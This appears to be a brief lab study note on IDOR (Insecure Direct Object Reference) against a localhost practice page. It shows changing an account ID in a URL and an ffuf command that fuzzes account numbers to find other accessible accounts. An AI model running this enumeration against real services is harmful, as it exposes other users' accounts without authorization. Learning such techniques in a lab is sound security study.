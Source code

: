 **IDOR** = Insecure Direct Object Reference
- access control 
- specific object ID

```bash
localhost/labs/e0x02.php?account=1009
localhost/labs/e0x02.php?account=1001
```
- fuzz all numbers
 ```bash
ffuf -u "http://localhost/labs/e0x02.php?account=FUZZ" -w num.txt
-fw 189
#found accessible accounts
```